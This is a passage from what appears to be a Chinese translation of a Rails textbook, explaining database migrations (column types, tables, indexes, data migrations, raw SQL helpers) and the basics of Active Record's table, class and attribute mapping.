看到了吗？`down` 方法如何撤销了 `up` 方法的效果？

#### 列类型

`add_column` 的第三个参数指定数据库列的类型。在前面的例子中，我们指定 `e_mail` 列的类型为 `:string`。但这到底是什么意思？数据库通常没有 `:string` 这种列类型。

请记住，Rails 试图使你的应用程序独立于底层数据库：你可以使用 MySQL 开发，然后部署到 Postgres。但不同的数据库对列类型使用不同的名称。如果你在迁移中使用了 MySQL 的列类型，那么当应用于 Postgres 数据库时，该迁移可能无法工作。因此，Rails 迁移通过使用逻辑类型将你与底层数据库的类型系统隔离开来。如果我们正在迁移一个 MySQL 数据库，`:string` 类型将创建一个 `varchar(255)` 类型的列。在 Postgres 上，相同的迁移会添加一个类型为 `char varying(255)` 的列。

迁移支持的类型有 `:binary`、`:boolean`、`:date`、`:datetime`、`:decimal`、`:float`、`:integer`、`:string`、`:text`、`:time` 和 `:timestamp`。下一页的图 16.1 显示了这些类型在 Rails 数据库适配器中的默认映射。使用此图，你可以推断出在迁移中声明为 `:integer` 的列在 MySQL 中的底层类型是 `int(11)`，在 Oracle 中是 `number(38)`。

在迁移中定义大多数列时，你可以指定最多三个选项；十进制列则需要额外两个选项。每个选项都以 `key => value` 对的形式给出。常用选项有：

- `:null => true` 或 `false`
    - 如果为 `false`，则底层列会添加一个 `not null` 约束（如果数据库支持）。
- `:limit => size`
    - 设置字段大小的限制。这基本上是将字符串 (`size`) 追加到数据库列类型定义中。
- `:default => value`
    - 设置列的默认值。请注意，默认值是在迁移运行时一次性计算的，因此以下代码会将默认列值设置为迁移运行时的日期和时间。

```
add_column :orders, :placed_at, :datetime, :default => Time.now
```

此外，十进制列接受 `:precision` 和 `:scale` 选项。`:precision` 选项指定要存储的有效数字位数，`:scale` 选项确定这些数字中小数点的位置（可以将 scale 视为小数点后的位数）。一个精度为 5、刻度为 0 的十进制数可以存储从 -99,999 到 +99,999 的数字。一个精度为 5、刻度为 2 的十进制数可以存储从 -999.99 到 +999.99 的范围。

对于十进制列，`:precision` 和 `:scale` 参数是可选的。然而，不同数据库之间的不兼容性强烈建议你在每个十进制列中包含这些选项。

以下是一些使用迁移类型和选项的列定义。

```
add_column :orders, :name, :string, :limit => 100, :null => false
add_column :orders, :age, :integer
add_column :orders, :ship_class, :string, :limit => 15, :default => 'priority'
add_column :orders, :price, :decimal, :precision => 8, :scale => 2
add_column :meter, :reading, :decimal, :precision => 24, :scale => 0
```

#### 重命名列

当我们重构代码时，我们经常会更改变量名使其更具意义。Rails 迁移也允许我们对数据库列名执行此操作。例如，在我们首次添加它一周后，我们可能会认为 `e_mail` 不是新列的最佳名称。我们可以创建一个迁移，使用 `rename_column` 方法将其重命名。

```
class RenameEmailColumn < ActiveRecord::Migration
  def self.up
    rename_column :orders, :e_mail, :customer_email
  end

  def self.down
    rename_column :orders, :customer_email, :e_mail
  end
end
```

请注意，重命名不会破坏与该列关联的任何现有数据。同时也要注意，并非所有适配器都支持重命名。

#### 更改列

使用 `change_column` 方法来更改列的类型或修改与列关联的选项。其使用方式与 `add_column` 相同。

##### 图 16.1：迁移和数据库列类型

| | db2 | mysql | openbase | oracle |
| :--- | :--- | :--- | :--- | :--- |
| **:binary** | blob(32768) | blob | object | blob |
| **:boolean** | decimal(1) | tinyint(1) | boolean | number(1) |
| **:date** | date | date | date | date |
| **:datetime** | timestamp | datetime | datetime | date |
| **:decimal** | decimal | decimal | decimal | decimal |
| **:float** | float | float | float | number |
| **:integer** | int | int(11) | integer | number(38) |
| **:string** | varchar(255) | varchar(255) | char(4096) | varchar2(255) |
| **:text** | clob(32768) | text | text | clob |
| **:time** | time | time | time | date |
| **:timestamp** | timestamp | datetime | timestamp | date |

| | postgresql | sqlite | sqlserver | sybase |
| :--- | :--- | :--- | :--- | :--- |
| **:binary** | bytea | blob | image | image |
| **:boolean** | boolean | boolean | bit | bit |
| **:date** | date | date | datetime | datetime |
| **:datetime** | timestamp | datetime | datetime | datetime |
| **:decimal** | decimal | decimal | decimal | decimal |
| **:float** | float | float | float(8) | float(8) |
| **:integer** | integer | integer | int | int |
| **:string** | character varying(256) | varchar(255) | varchar(255) | varchar(255) |
| **:text** | text | text | text | text |
| **:time** | time | datetime | datetime | time |
| **:timestamp** | timestamp | datetime | datetime | timestamp |

1.  如果你希望某列的默认值为其行插入时的日期和时间，只需将其设置为 datetime 类型并命名为 `created_at`。


但需要指定一个现有列的名称。假设订单类型列目前是整数，但我们需要将其更改为字符串。我们希望保留现有数据，因此订单类型 123 将变为字符串 "123"。稍后，我们将使用非整数值，例如 "new" 和 "existing"。

从整数列更改为字符串很简单。

```
def self.up
  change_column :orders, :order_type, :string, :null => false
end
```

然而，反向转换是有问题的。我们可能倾向于编写显而易见的回滚迁移。

```
def self.down
  change_column :orders, :order_type, :integer
end
```

但如果我们的应用程序已开始在此列中存储像 "new" 这样的数据，那么回滚方法将丢失它——"new" 无法转换为整数。如果这是可以接受的，那么迁移本身是可接受的。但是，如果我们想创建一个单向迁移——一个无法逆转的迁移——你将需要阻止回滚迁移被应用。在这种情况下，Rails 提供了一个你可以抛出的特殊异常。

```
class ChangeOrderTypeToString < ActiveRecord::Migration
  def self.up
    change_column :orders, :order_type, :string, :null => false
  end

  def self.down
    raise ActiveRecord::IrreversibleMigration
  end
end
```

### 16.3 管理表

到目前为止，我们一直在使用迁移来操作现有表中的列。现在让我们看看如何创建和删除表。

```
class CreateOrderHistories < ActiveRecord::Migration
  def self.up
    create_table :order_histories do |t|
      t.column :order_id,   :integer, :null => false
      t.column :created_at, :timestamp
      t.column :notes,       :text
    end
  end

  def self.down
    drop_table :order_histories
  end
end
```

`create_table` 接受表的名称（记住，表名是复数形式）和一个代码块。（它还接受一些可选参数，我们稍后会查看。）该代码块接收一个表定义对象，我们通过调用其 `column` 方法来定义表中的列。

`column` 的调用应该看起来很熟悉——它们与我们之前使用的 `add_column` 方法相同，只是它们不将表名作为第一个参数传递。

请注意，我们没有为新表定义 `id` 列。除非我们另有说明，否则 Rails 迁移会自动为其创建的所有表添加一个名为 `id` 的主键。关于这一点的更深入讨论，请参见第 **274** 页的第 **16.3 节，主键**。

#### 创建表的选项

你可以将一个选项哈希作为第二个参数传递给 `create_table`。

如果你指定 `:force => true`，迁移将在创建新表之前删除同名的现有表。如果你想要创建一个强制数据库进入已知状态的迁移，这是一个有用的选项，但显然存在数据丢失的可能性。

`:temporary => true` 选项创建一个临时表——一个在应用程序与数据库断开连接时就会消失的表。这在迁移的上下文中显然是无意义的，但正如我们稍后将看到的，它在其他地方确实有其用途。

`:options => "xxxx"` 参数允许你指定底层数据库的选项。这些选项被添加到 `CREATE TABLE` 语句的末尾，就在右括号之后。例如，某些版本的 MySQL 允许你指定自增 `id` 列的初始值。我们可以通过迁移传递这个值，如下所示。

```
create_table :tickets, :options => "auto_increment = 10000" do |t|
  t.column :created_at, :timestamp
  t.column :description, :text
end
```

在幕后，迁移将从此表描述生成以下 DDL。

```
create table tickets (
  `id` int(11) default null auto_increment primary key,
  `created_at` datetime,
  `description` text
) auto_increment = 10000;
```

在 MySQL 中使用 `:options` 参数时要小心。Rails MySQL 数据库适配器设置了一个默认选项 `ENGINE=InnoDB`。这会覆盖你可能有的任何本地默认值，并强制迁移对新表使用 InnoDB 存储引擎。但是，如果你覆盖了 `:options`，你将失去这个设置；新表将使用你网站配置为默认值的任何数据库引擎创建。在这种情况下，你可能需要在选项字符串中添加显式的 `ENGINE=InnoDB` 以强制使用标准行为。²

#### 重命名表

如果重构导致我们重命名变量和列，那么有时发现自己也需要重命名表也就不足为奇了。迁移支持 `rename_table` 方法。

```
class RenameOrderHistories < ActiveRecord::Migration
  def self.up
    rename_table :order_histories, :order_notes
  end

  def self.down
    rename_table :order_notes, :order_histories
  end
end
```

注意回滚方法如何通过将表重命名回来来撤销更改。

#### rename_table 的问题

在迁移中重命名表时存在一个微妙的问题。

例如，假设你在迁移 4 中创建了 `order_histories` 表并填充了一些数据。

```
def self.up
  create_table :order_histories do |t|
    t.column :order_id,   :integer, :null => false
    t.column :created_at, :timestamp
    t.column :notes,      :text
  end

  order = Order.find :first
  OrderHistory.create(:order => order, :notes => "test")
end
```

后来，在迁移 7 中，你将表 `order_histories` 重命名为 `order_notes`。此时，你还将模型 `OrderHistory` 重命名为 `OrderNote`。

现在你决定删除你的开发数据库并重新应用所有迁移。当你这样做时，迁移在迁移 4 中抛出一个异常：你的应用程序不再包含名为 `OrderHistory` 的类，因此迁移失败。

由 Tim Lucas 提出的一个解决方案是，在迁移本身内创建迁移所需的模型类的本地、虚拟版本。例如，以下版本的第四次迁移即使应用程序不再拥有 `OrderHistory` 类也能工作。

```
class CreateOrderHistories < ActiveRecord::Migration
  class Order < ActiveRecord::Base; end
  class OrderHistory < ActiveRecord::Base; end

  def self.up
    create_table :order_histories do |t|
      t.column :order_id,   :integer, :null => false
      t.column :created_at, :timestamp
      t.column :notes,      :text
    end

    order = Order.find :first
    OrderHistory.create(:order => order, :notes => "test")
  end

  def self.down
    drop_table :order_histories
  end
end
```

只要你的模型类不包含任何在迁移中将使用的额外功能，这就可以工作——你在这里创建的只是一个最基本的版本。

如果重命名表对你来说成了一个问题，我建议按照第 282 页第 16.8 节 *管理迁移* 中的描述来合并你的迁移。

#### 定义索引

迁移可以（并且很可能应该）为表定义索引。例如，你可能注意到一旦应用程序在数据库中有大量订单，基于客户名称的搜索时间会比你期望的要长。是时候使用恰如其分的 `add_index` 方法添加索引了。

```
class AddCustomerNameIndexToOrders < ActiveRecord::Migration
  def self.up
    add_index :orders, :name
  end

  def self.down
    remove_index :orders, :name
  end
end
```

如果你给 `add_index` 传递可选参数 `:unique => true`，将创建一个唯一索引，强制被索引列的值是唯一的。

默认情况下，索引将被命名为 *table_column_index*。你可以使用 `:name => 'somename'` 选项覆盖此名称。如果你在添加索引时使用了 `:name` 选项，那么在移除索引时也需要指定它。

你可以通过传递一个列名数组给 `add_index` 来创建一个*复合索引*——一个在多列上的索引。在这种情况下，命名索引时将只使用第一个列名。

#### 主键

Rails 假设每个表都有一个数字主键（通常称为 `id`）。Rails 确保此列的值对于添加到表中的每一行都是唯一的。

让我重新表述一下。

除非每个表都有一个数字主键，否则 Rails 真的运行得不是很好。它对列的名称不那么挑剔。

所以，对于你的普通 Rails 应用程序，我的强烈建议是顺其自然，让 Rails 拥有它的 `id` 列。

如果你决定冒险，你可以从为主键列使用不同的名称开始（但保持它为递增整数）。通过在 `create_table` 调用上指定 `:primary_key` 选项来执行此操作。

```
create_table :tickets, :primary_key => :number do |t|
  t.column :created_at, :timestamp
  t.column :description, :text
end
```

这会将 `number` 列添加到表中并将其设置为主键。

```
mysql> describe tickets;
+-------------+--------------+------+-----+---------+----------------+
| Field       | Type         | Null | Key | Default | Extra          |
+-------------+--------------+------+-----+---------+----------------+
| number      | int(11)      | NO   | PRI | NULL    | auto_increment |
| created_at  | datetime     | YES  |     | NULL    |                |
| description | text         | YES  |     | NULL    |                |
+-------------+--------------+------+-----+---------+----------------+
3 rows in set (0.34 sec)
```

冒险的下一步可能是创建一个不是整数的主键。这里有一个线索表明 Rails 开发者认为这不是一个好主意：迁移不允许你这样做（至少不能直接这样做）。

---
² 如果你使用 MySQL，你可能想继续使用 InnoDB，因为这个引擎提供事务支持。你的应用程序可能需要事务支持，如果你使用默认的事务性测试夹具，你的测试肯定需要它。


##### 无主键的表

有时你可能需要定义一个没有主键的表。在 Rails 中，最常见的用例是*关联表*——这种表只有两列，每列都是指向另一个表的外键。要使用迁移创建关联表，你必须告诉 Rails 不要自动添加 `id` 列。

```ruby
create_table :authors_books, :id => false do |t|
  t.column :author_id, :integer, :null => false
  t.column :book_id, :integer, :null => false
end
```

在这种情况下，你可能需要考虑在此表上创建一个或多个索引，以加快书籍和作者之间的导航速度。

### 16.4 数据迁移

迁移本质上就是 Ruby 代码；它们可以做任何你想做的事情。而且，由于它们也是 Rails 代码，它们可以完全访问你已经在应用程序中编写的代码。特别是，迁移可以访问你的模型类。这使得创建用于操作开发数据库中数据的迁移变得非常容易。

让我们看看两个在迁移中操作数据的不同场景：加载开发数据和在应用程序版本之间迁移数据。

#### 使用迁移加载数据

我们的大多数应用程序在有意义地使用它们之前，都需要将大量后台信息加载到数据库中，即使在开发阶段也是如此。如果我们正在编写一个在线商店，我们将需要产品数据。我们可能还需要有关运费、用户个人资料数据等信息。过去，开发者通常通过手动输入 SQL insert 语句将数据塞入数据库。这很难管理，而且往往不可重复。它也使得中途加入项目的开发者很难快速上手。

迁移让这一切变得容易得多。在我的几乎所有 Rails 项目中，我发现自己都在创建*仅数据*迁移——即加载数据到现有模式中，而不是改变模式本身。

请注意，我们这里讨论的是创建对开发者在操作应用程序时提供便利的数据，以及创建“固定”数据，例如查找表。你仍然需要创建包含特定于测试的数据的夹具。

这是一个来自新 Pragmatic Bookshelf 商店 Rails 应用程序的典型仅数据迁移。

```ruby
class TestDiscounts < ActiveRecord::Migration
  def self.up
    down

    rails_book_sku = Sku.find_by_sku("RAILS-B-00")
    ruby_book_sku  = Sku.find_by_sku("RUBY-B-00")
    auto_book_sku  = Sku.find_by_sku("AUTO-B-00")

    discount = Discount.create(:name => "Rails + Ruby Paper",
                               :action => "DEDUCT_AMOUNT",
                               :amount => "15.00")
    discount.skus = [rails_book_sku, ruby_book_sku]
    discount.save!

    discount = Discount.create(:name => "Automation Sale",
                               :action => "DEDUCT_PERCENT",
                               :amount => "5.00")
    discount.skus = [auto_book_sku]
    discount.save!
  end

  def self.down
    Discount.delete_all
  end
end
```

注意这个迁移如何充分利用我现有的 Active Record 类来查找现有的 SKU，创建新的折扣对象，并将两者联系在一起。还要注意 `up` 方法开头的微妙之处——它最初调用了 `down` 方法，而 `down` 方法反过来从 discounts 表中删除所有行。这是仅数据迁移中常见的模式。

#### 从夹具加载数据

夹具通常包含运行测试时要使用的数据。然而，通过一些额外的设置，我们也可以在迁移期间使用它们来加载数据。

为了说明这个过程，让我们假设我们的数据库有一个新的 users 表。我们将用以下迁移来定义它。

```ruby
class AddUsers < ActiveRecord::Migration
  def self.up
    create_table :users do |t|
      t.column :name, :string
      t.column :status, :string
    end
  end

  def self.down
    drop_table :users
  end
end
```

让我们在 `db/migrate` 下创建一个子目录，用来存放我们要加载到开发数据库中的数据。我们称该目录为 `dev_data`。

```bash
depot> mkdir db/migrate/dev_data
```

在该目录中，我们将创建一个 YAML 文件，其中包含我们想要加载到 `users` 表中的数据。我们将该文件命名为 `users.yml`。

```yaml
dave:
  name: Dave Thomas
  status: admin

mike:
  name: Mike Clark
  status: admin

fred:
  name: Fred Smith
  status: audit
```

现在，我们将生成一个迁移，将数据从此夹具加载到我们的开发数据库中。

```bash
depot> ruby script/generate migration load_users_data
exists  db/migrate
create  db/migrate/0xx_load_users_data.rb
```

最后，我们将在迁移中编写从夹具加载数据的代码。这有点神奇，因为它依赖于一个进入 Rails 夹具代码的后门接口。

```ruby
require 'active_record/fixtures'

class LoadUserData < ActiveRecord::Migration
  def self.up
    down

    directory = File.join(File.dirname(__FILE__), "dev_data")
    Fixtures.create_fixtures(directory, "users")
  end

  def self.down
    User.delete_all
  end
end
```

`create_fixtures` 的第一个参数是包含夹具数据的目录路径。我们使其相对于迁移文件的路径，因为我们将数据存储在迁移的子目录中。

请注意：你只应在迁移中加载那些你也会希望在生产环境中看到的数据：查找表、预定义用户等。不要以这种方式将测试数据加载到你的应用程序中。

#### 使用迁移迁移数据

有时模式变更也涉及迁移数据。例如，在项目开始时，你可能有一个使用浮点数存储价格的模式。然而，如果你后来遇到四舍五入问题，你可能希望改为存储整数形式的分币。

如果你一直在使用迁移将数据加载到数据库中，那么这不是问题：只需更改迁移文件，使其不再将 12.34 加载到 price 列，而是加载 1234。但如果那不可能，你可能希望在迁移内部执行转换。

一种方法是在更改列类型之前将现有列值乘以 100。

```ruby
class ChangePriceToInteger < ActiveRecord::Migration
  def self.up
    Product.update_all("price = price * 100")
    change_column :products, :price, :integer
  end

  def self.down
    change_column :products, :price, :float
    Product.update_all("price = price / 100.0")
  end
end
```

注意回滚迁移如何通过在列改回之后才进行除法运算来撤销更改。

### 16.5 高级迁移

大多数 Rails 开发者使用迁移的基本功能来创建和维护他们的数据库模式。然而，时不时地将迁移推进一点会很有用。本节涵盖了一些更高级的迁移用法。

#### 使用原生 SQL

迁移为你提供了一种与数据库无关的方式来维护应用程序的模式。然而，如果迁移不包含你需要执行操作的方法，你就需要转而使用特定于数据库的代码。为此，请使用 `execute` 方法。

我迁移中的一个常见示例是向子表添加外键约束。我们在创建 line_items 表时见过这个。

```ruby
class CreateLineItems < ActiveRecord::Migration
  def self.up
    create_table :line_items do |t|
      t.column :product_id,    :integer, :null => false
      t.column :order_id,    :integer, :null => false
      t.column :quantity,    :integer, :null => false
      t.column :total_price, :decimal, :null => false, :precision => 8, :scale => 2
    end

    execute "alter table line_items
             add constraint fk_line_item_products
             foreign key (product_id) references products(id)"

    execute "alter table line_items
             add constraint fk_line_item_orders
             foreign key (order_id) references orders(id)"
  end

  def self.down
    drop_table :line_items
  end
end
```

当你使用 `execute` 时，你很可能将迁移绑定到了特定的数据库引擎：作为参数传递给 `execute` 的 SQL 使用了你数据库的原生语法。

`execute` 方法接受一个可选的第二个参数。该参数被添加到执行 SQL 时生成的日志消息前面。

#### 扩展迁移

如果你查看上一节中的 line item 迁移，你可能会对两个 `execute` 语句之间的重复感到疑惑。将外键约束的创建抽象成一个辅助方法会很好。

我们可以通过向迁移源文件添加如下方法来实现这一点。

```ruby
def self.foreign_key(from_table, from_column, to_table)
  constraint_name = "fk_#{from_table}_#{from_column}"

  execute %{alter table #{from_table}
           add constraint #{constraint_name}
           foreign key (#{from_column}) references #{to_table}(id)}
end
```

（`self.` 是必需的，因为迁移是作为类方法运行的，我们需要在此上下文中调用 `foreign_key`。）

在 `up` 迁移中，我们可以使用以下方式调用这个新方法：

```ruby
def self.up
  create_table ... do
  end
  foreign_key(:line_items, :product_id, :products)
  foreign_key(:line_items, :order_id, :orders)
end
```


不过，我们可能还想更进一步，使我们的 `foreign_key` 方法对所有迁移都可用。为此，请在应用的 `lib` 目录中创建一个模块，并添加 `foreign_key` 方法。但这次，请将其设为常规的实例方法，而不是类方法。

```ruby
module MigrationHelpers
  def foreign_key(from_table, from_column, to_table)
    constraint_name = "fk_#{from_table}_#{from_column}"
    execute %{alter table #{from_table}
              add constraint #{constraint_name}
              foreign key (#{from_column})
              references #{to_table}(id)}
  end
end
```

现在，您可以通过在迁移文件顶部添加以下几行代码，将此模块添加到任何迁移中。

```ruby
require "migration_helpers"

class CreateLineItems < ActiveRecord::Migration
  extend MigrationHelpers
```

`require` 行将模块定义引入迁移的代码中，而 `extend` 行将 `MigrationHelpers` 模块中的方法作为类方法添加到迁移中。您可以使用此技术来开发和共享任意数量的迁移辅助方法。

（另外，如果您想让生活更轻松，有人已经编写了一个插件^3^，可以自动处理添加外键约束。）

### 16.6 当迁移出错时

迁移存在一个严重的问题。更新数据库模式的底层 DDL 语句不是事务性的。这不是 Rails 的缺陷——大多数数据库根本不支持回滚 `create table`、`alter table` 和其他 DDL 语句。

让我们看一个尝试向数据库添加两个表的迁移。

```ruby
class ExampleMigration < ActiveRecord::Migration
  def self.up
    create_table :one do ...
    end
    create_table :two do ...
    end
  end
  def self.down
    drop_table :two
    drop_table :one
  end
end
```

3. <http://www.redhillconsulting.com.au/rails_plugins.html>

在正常情况下，`up` 方法添加表 one 和 two，`down` 方法移除它们。

但如果在创建第二个表时出现问题怎么办？我们最终会得到一个包含表 one 但不包含表 two 的数据库。我们可以修复迁移中的任何问题，但现在我们无法应用它——如果我们尝试，它会失败，因为表 one 已经存在。

我们可以尝试回滚迁移，但这不会起作用：因为原始迁移失败了，数据库中的模式版本没有更新，所以 Rails 不会尝试回滚它。

此时，您可以手动更改模式信息并删除表 one。但这可能不值得。我们在这些情况下建议简单地删除整个数据库，重新创建它，并应用迁移使其恢复到最新状态。您不会丢失任何东西，并且您会知道您拥有一个一致的模式。

所有这些讨论表明，在生产数据库上使用迁移是危险的。我建议至少在对生产数据库运行迁移之前对其进行备份。您需要自己研究如何让迁移在生产环境中运行——我宁愿不在这里说明。

### 16.7 迁移之外的模式操作

到目前为止，本章描述的所有迁移方法也可作为 Active Record 连接对象的方法使用，因此可以在 Rails 应用的模型、视图和控制器中访问。

例如，您可能已经发现，如果 orders 表在 city 列上有一个索引，某个长时间运行的报告会运行得更快。然而，该索引在日常应用运行中并不需要，并且测试表明维护它会显著减慢应用速度。

让我们编写一个创建索引、运行一段代码块、然后删除索引的方法。这可以是模型中的一个私有方法，也可以在库中实现。

```ruby
def run_with_index(column)
  connection.add_index(:orders, column)
  begin
    yield
  ensure
    connection.remove_index(:orders, column)
  end
end
```

模型中的统计信息收集方法可以这样使用它。

```ruby
def get_city_statistics
  run_with_index(:city) do
    # .. 计算统计信息
  end
end
```

### 16.8 管理迁移

迁移也有一个缺点。随着时间的推移，您的模式定义将分散在许多单独的迁移文件中，许多文件可能会影响模式中每个表的定义。当这种情况发生时，很难准确看到每个表包含什么。这里有一些建议，让事情变得更简单。

一个解决方法是查看 db/schema.rb 文件。迁移运行后，该文件将以 Ruby 形式包含整个数据库定义。

或者，一些团队不使用单独的迁移来捕获所有模式版本。相反，他们为每个表维护一个迁移文件，并使用其他迁移文件将开发数据加载到这些表中。当他们需要更改模式时（比如向表添加一列），他们编辑该表的现有迁移文件。然后他们删除并重新创建数据库，并重新应用所有迁移。遵循这种方法，他们总是可以通过查看该表的迁移文件来查看每个表的总定义。

为了在实践中做到这一点，团队的每个成员在从项目仓库更新本地源代码时，都需要关注被修改的文件。当迁移文件更改时，这表明数据库模式需要重新创建。

尽管这种方案似乎违背了迁移的精神，但它在实践中效果很好。

另一种方法是使用本章前面描述的方式使用迁移，为模式的每次更改创建一个新迁移。要跟踪模式的发展，您可以使用 annotate_models 插件。运行时，该插件会查看当前模式，并将每个表的描述添加到该表的模型文件顶部。

使用以下命令安装 annotate_models 插件（该命令已分成两行以适应页面）。

```
depot> ruby script/plugin install \
    http://svn.pragprog.com/Public/plugins/annotate_models
```

安装后，您可以随时使用以下命令运行它：

```
depot> rake annotate_models
```

完成后，每个模型源文件将有一个注释块，记录相应数据库表的列。例如，在我们的 Depot 应用中，line_item.rb 文件将以如下内容开头：

```ruby
# Schema as of June 12, 2006 15:45 (schema version 7)
#
# Table name: line_items
#
# id          :integer(11)   not null, primary key
# product_id  :integer(11)   default(0), not null
# order_id    :integer(11)   default(0), not null
# quantity    :integer(11)   default(0), not null
# total_price :integer(11)   default(0), not null

class LineItem < ActiveRecord::Base
  # ...
```

如果您随后更改了模式，只需重新运行 Rake 任务：注释块将被更新以反映数据库的当前状态。

# 第 17 章
## Active Record 第一部分：基础

Active Record 是 Rails 提供的对象关系映射（ORM）层。在本章中，我们将在下一章探讨使用 Active Record 管理表关系，并在接下来的章节中深入探讨 Active Record 对象生命周期（包括验证和过滤器）。

Active Record 严格遵循标准的 ORM 模型：表映射到类，行映射到对象，列映射到对象属性。它与其他大多数 ORM 库的不同之处在于其配置方式。通过使用一组合理的默认值，Active Record 最小化了开发人员执行的配置量。为了说明这一点，这里有一个独立程序，它使用 Active Record 将 MySQL 数据库中的 orders 表包装起来。在找到具有特定 id 的订单后，它修改购买者的名称并将结果保存回数据库，更新原始行。¹

```ruby
require "rubygems"
require_gem "activerecord"

ActiveRecord::Base.establish_connection(:adapter => "mysql",
                                       :host => "localhost",
                                       :database => "railsdb")

class Order < ActiveRecord::Base
end

order = Order.find(123)
order.name = "Dave Thomas"
order.save
```

> 1. 本章中的示例连接到我们在撰写本书时使用的机器上的各种 MySQL 数据库。您需要调整连接参数才能让它们与您的数据库一起工作。我们将在第 17.4 节“连接到数据库”（第 291 页）中讨论连接数据库。


### 17.1 表与类

当你创建一个 `ActiveRecord::Base` 的子类时，你实际上是在创建一个包裹（wrap）数据库表的抽象。默认情况下，Active Record 假设表名是类名的复数形式。如果类名包含多个首字母大写的单词，它会假设表名中这些单词之间用下划线连接。一些不规则的复数形式也会被处理。

| 类名 | 表名 | 类名 | 表名 |
| --- | --- | --- | --- |
| Order | orders | LineItem | line_items |
| TaxAgency | tax_agencies | Person | people |
| Batch | batches | Datum | data |
| Diagnosis | diagnoses | Quantity | quantities |

这些规则体现了 DHH 的理念，即类名应为单数，而表名应为复数。如果你不喜欢这种行为，可以使用 `set_table_name` 指令来更改它。

```ruby
class Sheep < ActiveRecord::Base
  set_table_name "sheep"            # Not "sheeps"
end
```

```ruby
class Order < ActiveRecord::Base
  set_table_name "ord_rev99_x"      # Wrap a legacy table...
end
```

如果你不喜欢调用 `set_xxx` 这样的方法，还有一种更直接的形式。

```ruby
class Sheep < ActiveRecord::Base
  self.table_name = "sheep"
end
```

### 17.2 列与属性

Active Record 对象对应于数据库表中的行。这些对象拥有对应于表中列的属性。你可能注意到，我们定义的 `Order` 类并没有提及 `orders` 表中的任何列。这是因为 Active Record 在运行时动态地确定它们。Active Record 通过内省数据库中的模式（schema）来配置包裹表的类。

> 2. 这并不完全正确，因为一个模型可能包含不属于模式的属性。我们将在下一章，从第 **381** 页开始，更深入地讨论属性。

> 大卫如是说……
> 我的属性在哪里？
> 数据库管理员（DBA）作为一个独立于程序员的角色的概念，导致一些开发者在代码和模式之间划出了严格的界限。Active Record 模糊了这种区别，而最明显的地方莫过于模型中缺乏显式的属性定义。

但请不要担心。实践表明，无论你是在查看数据库模式、一个单独的 XML 映射文件，还是模型中的内联属性，其效果差异甚微。这种组合视图类似于模型-视图-控制（Model-View-Control）模式中已经发生的分离——只是规模更小而已。

一旦将表模式视为模型定义一部分的不适感消散，你就会开始认识到保持 DRY（Don't Repeat Yourself）原则的好处。当你需要向模型添加一个属性时，只需创建一个新的迁移并重新加载应用即可。

将“构建”步骤从模式演进中移除，使其变得与其余代码一样敏捷。从一个小的模式开始，并根据需要扩展和修改它变得容易得多。

在 Depot 应用中，我们的 `orders` 表由以下迁移定义。

```ruby
# Download depot_r/db/migrate/005_create_orders.rb
def self.up
  create_table :orders do |t|
    t.column :name, :string
    t.column :address, :text
    t.column :email, :string
    t.column :pay_type, :string, :limit => 10
  end
end
```

我们已经作为 Depot 应用的一部分编写了一个 Order 模型类。让我们使用便捷的 `script/console` 命令来操作它。首先，我们请求列名列表。

```
depot> ruby script/console
Loading development environment.
>> Order.column_names
=> ["id", "name", "address", "email", "pay_type"]
```

然后，我们请求 `pay_type` 列的详细信息。

```
>> Order.columns_hash["pay_type"]
=> #<ActiveRecord::ConnectionAdapters::MysqlColumn:0x23d8b5c
    @sql_type="varchar(10)", @default=nil, @name="pay_type",
    @number=false, @limit=10, @text=true, @type=:string, @null=true, @primary=false>
```

请注意，Active Record 已经获取了关于 `pay_type` 列的相当多的信息。它知道这是一个最多 10 个字符的字符串，没有默认值，不是主键，并且可能包含空值。这些信息是在我们第一次尝试使用 `Order` 类时，通过询问底层数据库获得的。

图 17.1 展示了 SQL 类型与其 Ruby 表示之间的映射关系。十进制列稍微有些复杂：如果模式指定了没有小数位的列，它们会被映射为整数；否则，它们会被映射为 Ruby 的 BigDecimal 对象，以确保精度无损失。

#### 将 SQL 类型映射到 Ruby 类型

| SQL 类型 | Ruby 类 | SQL 类型 | Ruby 类 |
| --- | --- | --- | --- |
| int, integer | Fixnum | float, double | Float |
| decimal, numeric | BigDecimal¹ | char, varchar, string | String |
| interval, date | Date | datetime, time | Time |
| clob, blob, text | String | boolean | 见正文 |

¹ 当 decimal 和 numeric 列的精度（scale）为 0 时，它们会被映射为整数。

##### 访问行与属性

Active Record 类对应于数据库中的表。类的实例对应于数据库表中的单行。例如，调用 `Order.find(1)` 会返回一个 Order 类的实例，该实例包含主键为 1 的行中的数据。

Active Record 实例的属性通常对应于数据库表中相应行的数据。例如，我们的 `orders` 表可能包含以下数据。

```
depot> mysql -u root depot_development
mysql> select * from orders limit 1;
+----+-------------+--------------+--------------------------+----------+
| id | name        | address      | email                    | pay_type |
+----+-------------+--------------+--------------------------+----------+
|  1 | Dave Thomas | 123 Main St  | customer@pragprog.com    | check    |
+----+-------------+--------------+--------------------------+----------+
1 row in set (0.00 sec)
```

如果我们把这一行数据获取到一个 Active Record 对象中，该对象将拥有五个属性。`id` 属性的值是 1（一个 Fixnum），`name` 属性的值是字符串 "Dave Thomas"，以此类推。

你使用访问器（accessor）方法来访问这些属性。当 Rails 内省模式时，它会自动构建属性读取器（reader）和属性写入器（writer）。

```ruby
o = Order.find(1)
puts o.name           #=> "Dave Thomas"
o.name = "Fred Smith"   # set the name
```

设置属性的值并不会更改数据库中的任何内容——你必须保存对象，此更改才会永久生效。

如果可能，Active Record 会将属性读取器返回的值转换为合适的 Ruby 类型（例如，如果数据库列是时间戳，将返回一个 `Time` 对象）。如果你想获取属性的原始值（在类型转换之前），请在其名称后追加 `_before_type_cast`，如以下代码所示。

```ruby
account.balance_before_type_cast          #=> "123.4", a string
account.release_date_before_type_cast     #=> "20050301"
```

在模型的代码内部，你可以使用 `read_attribute` 和 `write_attribute` 私有方法。它们接受属性名作为字符串参数。

##### 布尔属性

一些数据库支持布尔列类型，而另一些则不支持。这使得 Active Record 很难为布尔值创建一个抽象层。例如，如果底层数据库没有布尔类型，一些开发者会使用一个包含 "t" 或 "f" 的 `char(1)` 列来表示真或假。另一些则使用整数列，其中 0 表示假，1 表示真。即使数据库直接支持布尔类型（例如 MySQL 及其 `bool` 列类型），它们在内部可能只是存储为 0 或 1。

问题在于，在 Ruby 中，数字 0 和字符串 "f" 在条件判断中都被解释为真值。³ 这意味着，如果你直接使用该列的值，当你的意图是假时，你的代码会将其解释为真。

```ruby
# DON'T DO THIS
user = Users.find_by_name("Dave")
if user.superuser
    grant_privileges
end
```

